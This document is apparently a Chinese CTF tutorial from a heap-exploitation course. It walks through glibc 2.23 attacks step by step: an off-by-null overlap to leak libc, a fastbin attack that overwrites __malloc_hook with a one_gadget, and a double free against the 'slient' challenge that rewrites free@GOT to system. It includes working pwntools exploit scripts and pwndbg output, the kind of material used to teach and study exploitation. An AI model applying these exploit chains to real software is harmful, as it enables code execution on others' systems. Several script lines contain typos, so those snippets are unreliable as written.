pwndbg> magic # 查看一些常用的关键函数或变量地址，如system、__malloc_hook、__free_hook、__realloc_hook等
pwndbg> p &__malloc_hook # 查看__malloc_hook地址，这里为 0x7fcfb8bffb10
pwndbg> x/20gx 0x7fcfb8bffb10-0x20 # 查看__malloc_hook附近内存，寻找合适的伪造chunk的地方
pwndbg> x/4gx 0x7fcfb8bffb10-0x23 # 找到了合适的伪造地址
0x7fcfb8bffaed 0xcfb0bfe260000000 0x000000000000007f
0x7fcfb8bffafd 0xcfb88c8e28000000 0xcfb08c0a0000007f
```



然后相应的更新脚本如下：

```
add(0xf8, '0' * 0xf8)
add(0x68, '1' * 0x68) # trigger off-by-null
add(0xf8, '2' * 0xf8)
add(0x18, '3' * 0x18)
delete(0)
edit(1, 0x68, flat('1' * 0x60, 0x170))
delete(2)
pause()
add(0xf0, 'x' * 0x10)
show()
libc.address = u64(io.recvutil('\x7f')[-6:] + '\0\0') - 0x3c4b78
printf('libc @ {:#x}'.format(libc.address))
assert libc.address & 0xfff = 0
add(0x160, '4' * 160)

add(0xf8, 'a' * 0xf8)
add(0x68, 'b' * 0x68) # trigger off-by-null
add(0xf8, 'c' * 0xf8)
add(0x18, 'd' * 0x18)
pause()
delete(4)
edit(5, 0x68, flat('b' * 0x60, 0x170))
delete(6)
delete(5)

pause()
#add(0x120, flat(cyclic(n = 8, length = 0x120)))
add(0x120, flat('a' * 248, 0x71, libc.sym['__malloc_hook'] - 0x23))
```

运行脚本，再次查看fastbin链

```
pwndbg> fastbins # 0x7fcfb8bffaed地址已经成功链到fastbins，所以连续分配两次就可以分配到该地址
pwndbg> heapinfo # 查看堆信息
```



**STEP9** 创建节点，使分配到伪造的地址上，然后将__malloc_hook覆写为我们想要跳转的地址。
想要控制malloc参数指向"/bin/sh"地址比较难，可以使用one-gadget

首先查找合适的one-gadget地址

```
$ ldd pwn # 查看使用的libc.so链接库路径，这里为/lib/x86_64-linux-gnu/libc-2.23.so
$ docker cp glibc2.23://lib/x86_64-linux-gnu/libc-2.23.so . # 从docker里将目标版本libc.so拷贝到本地
$ one_gadget ./libc-2.23.so # 查找one_gadget
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
 rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
 [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
 [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
 [rsp+0x70] == NULL
```

找到4个，从其中随便选一个，更新脚本如下：

```
...(前面脚本内容略)...
add(0x120, flat('a' * 248, 0x71, libc.sym['__malloc_hook'] - 0x23))
add(0x68, 'x' * 0x10)
add(0x68, flat('\0' * 0x13, libc.sym['one_gadget']))
```

运行脚本并断点调试

```
pwndbg> magic 
```

发现这里的one-gadget不符合他的条件，利用失败。

**STEP10**  这里还有个技巧，在`__malloc_hook`前面有个`__realloc_hook`，可以用来当一个跳板。

```
pwndbg> p &__malloc_hook # 查看__malloc_hook地址，这里为 0x7f4868478b10
pwndbg> telescope 0x7f4868478b10-0x20
pwndbg> p &__realloc_hook # 查看__realloc_hook地址，这里为 0x7f4868478b08
pwndbg> x/20i &__libc_realloc # 查看__libc_realloc代码
```

修改脚本，并附加调试， 

```
...(前面脚本内容略)...
add(0x120, flat('a' * 248, 0x71, libc.sym['__malloc_hook'] - 0x23))
add(0x68, 'x' * 0x10)
pause()
add(0x68, flat('\0' * 0x11, libc.sym['one_gadget'], libc.sym['__libc_realloc'] - 16))
```

运行脚本，利用成功。

可能会有疑问，如果这里`__realloc_hook`还不成功怎么办，这个可能性不大。

```
pwndbg> x/20i &__libc_realloc
```

查看`__libc_realloc`汇编代码你会发现，这里的rax是我们的one_gadget，前面这里有多条push语句以及sub esp指令，能够调整堆栈，一条push不行，还有push指令，这种情况下一般都能满足one gadget条件。



**答疑**

- Q: 在合并chunk之前一定要free？ A: 不一定
- Q: 上节课讲到fastbin在free时不会清理P位，也就是说P位无意义吗?为什么这里修改了P位有用。


#### 方法3: fastbin attack

  - 使用heap overflow，同样使用fastbin attack，不过使用bss上的指针直接构造任意地址读写
    使用NODE->size很容易在bss上伪造fake size
    
    > 该方法比较简单，细节不再详述，参考github脚本




### 实战UAF - 强网杯slient

附件地址: http://github.com/bash-c/public_class_examples

```
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  int choice; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v4; // [rsp+8h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  init_0();
  cat_banner();
  while ( 1 )
  {
    __isoc99_scanf("%d", &choice);
    getchar();
    switch ( choice )
    {
      case 2:
        delete();
        break;
      case 3:
        edit();
        break;
      case 1:
        add();
        break;
    }
  }
}

void edit()
{
  int idx; // [rsp+0h] [rbp-10h]
  int len; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  __isoc99_scanf("%d", &idx);
  getchar();
  if ( idx >= 0 && idx <= 9 )
  {
    len = strlen(note[idx]);
    read_n(note[idx], len + 1);
    read_n(byte_602120, 48LL);
  }
}

void add()
{
  size_t size; // [rsp+0h] [rbp-20h]
  unsigned __int64 idx; // [rsp+8h] [rbp-18h]
  char *p; // [rsp+10h] [rbp-10h]
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  __isoc99_scanf("%lu", &size);
  getchar();
  p = (char *)malloc(size);
  read_n(p, size);
  for ( idx = 0LL; idx <= 9 && note[idx]; ++idx )
    ;
  if ( idx == 10 )
    exit(0);
  note[idx] = p;
}

void delete()
{
  int idx; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v1; // [rsp+8h] [rbp-8h]

  v1 = __readfsqword(0x28u);
  __isoc99_scanf("%d", &idx);
  getchar();
  if ( idx >= 0 && idx <= 9 )
    free(note[idx]);                            // double free
}

void cat_banner()
{
  system("cat banner.txt");
}
```



> 事实上这里一共有两个题目slient1和slient2，slient2里用到edit，slient1里没用到edit这里就不关注了。

程序中没有任何输出函数，不能leak libc，但程序中使用了system函数，可以通过fastbin double free更改free@GOT为system

程序没有开PIE，本身没有任何输出，没办法leak glibc，但是本身调用了system，可以直接用，可以改got为system，或者改malloc hook都可以

- 调试细节

**STEP1** 首先还是根据程序逻辑，把基本增删改查操作包装成函数方便调用

**STEP2** 编写脚本，先free0，再free1，再free0，再申请回来

```
add(0x50, '00000000')
add(0x50, '11111111')
add(0x10, '/bin/sh')
delete(0) # 0
delete(1) # 1 -> 0
delete(0) # 0 -> 1 -> 0
pause()
add(0x50, flat(0xdeadbeef)) # 1 -> 0 -> 0xdeadbeef
add(0x50, 'aaaaaaaa') # 0 -> 0xdeadbeef
add(0x50, 'bbbbbbbb') # 0xdeadbeef

pwndbg > fastbins # 查看fastbin链
pwndbg > checksec # 没开PIE，且got可写
pwndbg > got # 查看got，找到free地址，这里为0x602018
pwndbg > x/30gx 0x602018-0x20 # 查找附近内存，找下合法size，记下地址
pwndbg > x/4gx 0x601ffa # 找到了合法地址
0x601ffa 0x1e28000000000000 0x9168000000000060
0x60200a 0x9ee0000000000000 0xc4f000007fa9fd78
```



**STEP3** 修改脚本

```
add(0x50, '00000000')
add(0x50, '11111111')
add(0x10, '/bin/sh')
delete(0) # 0
delete(1) # 1 -> 0
delete(0) # 0 -> 1 -> 0
add(0x50, flat(0x601ffa)) # 1 -> 0 -> target
add(0x50, 'aaaaaaaa') # 0 -> target
add(0x50, 'bbbbbbbb') # target
pause()
add(0x50, flat(cyclic(n = 8, length = 0x30)))
```

```
pwndbg > fastbins 
```

**STEP4** 修改脚本

```
add(0x50, '00000000')
add(0x50, '11111111')
add(0x10, '/bin/sh')
delete(0) # 0
delete(1) # 1 -> 0
delete(0) # 0 -> 1 -> 0
add(0x50, flat(0x601ffa)) # 1 -> 0 -> target
add(0x50, 'aaaaaaaa') # 0 -> target
add(0x50, 'bbbbbbbb') # target

# pause()

add(0x50, flat('\0' * 0xe, elf.sym['system']))
delete(2)
```

```
pwndbg > got # free@GOT成功覆写为system@plt地址
```


## 补充

- Source code is everything.

- 推荐阅读

  CTF wiki heap相关

  Glibc相关源码

> 总结，以上所有这些利益技巧，其实都是在利用堆管理中的各种feature
> 例如最早的unlink，不会检查fd、bk合法性，因此出现了unlink攻击；再比如上面的house of oragne，题目里只有malloc，没有free。实际上是作者研究了glibc代码，发现当top chunk不够时，会调sbrk申请新的，这时候会释放原来的top chunk，利用了这个feature


## 参考

- 【长亭科技PWN系列公开课程 #4PWN术进阶，玩转堆溢出 2020.04.30 长亭科技安全研究员 f1yy (yanyuzhang)】
- 【长亭科技PWN系列公开课程 #5 庖丁解堆，实战堆利用技术 2020.05.08 长亭科技安全研究员王奥博】

